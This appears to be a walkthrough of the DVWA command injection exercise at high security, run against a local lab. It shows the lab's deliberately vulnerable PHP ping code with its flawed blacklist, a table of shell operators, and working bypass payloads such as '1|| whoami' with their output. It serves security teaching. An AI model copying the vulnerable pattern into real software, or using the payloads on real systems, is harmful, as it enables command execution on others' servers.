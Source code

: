 ## Command Injection High


We look at the source code http://127.0.0.1/vulnerabilities/view_source.php?id=exec&security=high



```php


<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>

```


| Name  | operators     | Description |
| --- | --- | --- |
| Ampersand     | & | Dictates the shell to execute the linux command in the background |
| Semicolon     | ; | execute command in a defined , sequential order |
| Or    | ||    | will execute the command that follows if the preceding command fails (returns an exit code of 0 ) Like a logical or gate |
| Pipe  | | | Directs the output of the preceding command as the input to the succeeding command |
| AND   | &&    | will execute commands only if the preceding command was successfully executed |
| Will execute all the commands up until bad_command |
| NOT   | ! | Does not perform an operation |
| Precedence    | (..)  | The commands following the AND and OR operators depend on the exit code of the preceding command. These operators are binary and only evaluate the two commands that come before and after them |
| Set groups and precedence to ensure that the execution sequence meets your expectations |
| Combination   | {..}  | Group commands: Will be executed depending upon the exit code of the first command |
| Concatenation or Escape   | \ | Two Functions: Either use it to conctenate two commands or as an escape character when working with  strings in shell |
| Redirection   | >, >> , <     | Redirects the output or the inut to a file by re-writting or appending to the file |

|


It takes every operator it finds and changes it into ''

So we give the operators as parts of the word (trim is only present in the high security version)


```Bash
1|| whoami 
1|| hostname
``` 

and the result is : 

```Bash
www-data
7ee3c931e984
```
